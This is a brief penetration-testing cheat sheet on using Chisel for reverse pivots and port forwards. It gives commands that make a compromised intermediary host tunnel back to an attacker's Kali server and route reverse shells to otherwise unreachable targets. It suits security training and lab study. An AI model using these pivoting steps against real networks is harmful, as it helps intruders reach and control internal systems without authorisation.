 Reverse Pivot
Chisel is like SSH tunneling but everything is reversed.

Victim tunnels to hacker.

Victim == client
Hacker == server

https://github.com/richardcurteis/Cheat-Sheets-and-Guides/blob/master/Reverse%20Pivot.png

Set up server to listen on port 8000. Be verbose
kali:~# chisel server -p 8000 -reverse -v

Tell client to connect to server and tell server where to listen
intermediary_victim:~# chisel client $kali_ip:8000 R:127.0.0.1:8001:$target_ip:$target_port

#! Look at fingerprint option to ensure client only connects to intended servers

Port Forward/Local Pivot
If we have a shell on a non-routable mnachine to our attacking machine, set up the port forward on a machine
that can connect to both and forward traffic through
Once set up send reverse shell etc to intermediary machine to be routed through to attacker.

Spin up server on kali
kali:~# chisel server -p 8000 -reverse -v

ink client to server and forward traffic on localhost from 9001 to address foo on port bar
chisel client $kali_ip:8000 intermediary_port:target_ip:target_port
intermediary_victim:~# chisel client $kali_ip:8000 9001:127.0.0.1:8001
